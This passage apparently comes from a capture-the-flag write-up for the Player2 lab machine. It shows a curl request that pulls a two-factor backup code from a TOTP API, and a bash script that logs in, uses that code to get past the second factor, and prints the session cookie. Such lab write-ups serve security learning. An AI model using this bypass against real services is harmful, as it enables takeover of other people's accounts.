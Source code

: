 Hmm. We now have missing parameters. I wonder what that means...Maybe we can use the API to generate the backup codes?

```
# curl -i -H "Content-Type: application/json" -b "PHPSESSID=qdm4oas8g2e5uto1lrug035p0o" -d '{"action": "backup_codes"}'  http://product.player2.htb/api/totp
HTTP/1.1 200 OK
Date: Thu, 19 Dec 2019 03:37:41 GMT
Server: Apache/2.4.29 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 39
Content-Type: application/json

{"user":"0xdf","code":"91231238385454"}
```

Bingo! Armed with this insight, I wrote a simple script to grab an authenticated session cookie for session replay.

<div class="filename"><span>auth.sh</span></div>

```bash
#!/bin/bash

HOST=product.player2.htb
USER=$1
PASS=$2
COOKIE=$(mktemp -u)
PROXY=http://127.0.0.1:8080

curl    -s \
        -c $COOKIE \
        -H "Referer: http://$HOST/" \
        -L \
        -d "username=$USER&password=$PASS&Submit=Sign+In" \
        -o /dev/null \
        http://$HOST/

BACKUP=$(curl   -s \
                -b $COOKIE \
                -H "Content-Type: application/json" \
                -d '{"action": "backup_codes"}' \
                http://$HOST/api/totp \
         | cut -d'"' -f8)

curl    -s \
        -b $COOKIE \
        -H "Referer: http://$HOST/totp" \
        -L \
        -d "otp=$BACKUP&Submit=Submit" \
        -o /dev/null \
        http://$HOST/totp

cat $COOKIE | sed '$!d' | awk '{ print $NF }'

# clean up
rm -rf $COOKIE
```
